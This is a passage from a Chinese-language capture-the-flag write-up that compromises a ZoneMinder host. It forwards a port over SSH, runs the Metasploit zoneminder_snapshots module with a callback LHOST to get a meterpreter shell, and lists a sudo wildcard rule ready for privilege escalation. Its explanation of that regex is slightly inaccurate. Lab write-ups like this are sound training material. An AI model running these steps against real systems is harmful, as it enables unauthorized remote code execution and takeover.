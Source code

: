    标题是ZM-Login，目标机器上正好存在一个zoneminder用户，两者可能有联系

   

3. 在测试过程中机器被重置了，发现matthew用户可以通过ssh登录，使用ssh来执行本地端口转发

   将本地的1234口上的流量转发到目标机器的8080口

   ```
   ssh -L 1234:localhost:8080 matthew@10.10.11.245
   ```



4. google搜索ZoneMinder，会发现一个[快照命令注入](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)的漏洞。

   更新一下metasploit

   ```
   apt-get update
   apt-get install metasploit-framework
   ```

   然后执行下列操作，会给我们一个meterpreter shell

   ```
   msf6 > use exploit/unix/webapp/zoneminder_snapshots
   msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
   msf6 exploit(unix/webapp/zoneminder_snapshots) > set RPORT 1234
   msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST 10.10.16.3
   msf6 exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
   msf6 exploit(unix/webapp/zoneminder_snapshots) > run
   
   meterpreter > shell
   Process 1590 created.
   Channel 1 created.
   id
   uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
   ```



5. 现在获取了zoneminder用户的shell，发现可以sudo执行/usr/bin/zm[a-zA-Z]*.pl *

   ```
   sudo -l
   Matching Defaults entries for zoneminder on surveillance:
       env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
   
   User zoneminder may run the following commands on surveillance:
       (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
   ```

   这个正则表达式可以匹配以 `/usr/bin/zm` 开头，然后是任意大小写字母（零个或多个），接着是任意字符（零个或多个），最后以 `.pl` 结尾的字符串。这样就包括了匹配 `/usr/bin/zm` 开头的任意以 `.pl` 结尾的文件。

   例如，它可以匹配类似这样的文件路径：`/usr/bin/zmexample.pl`。


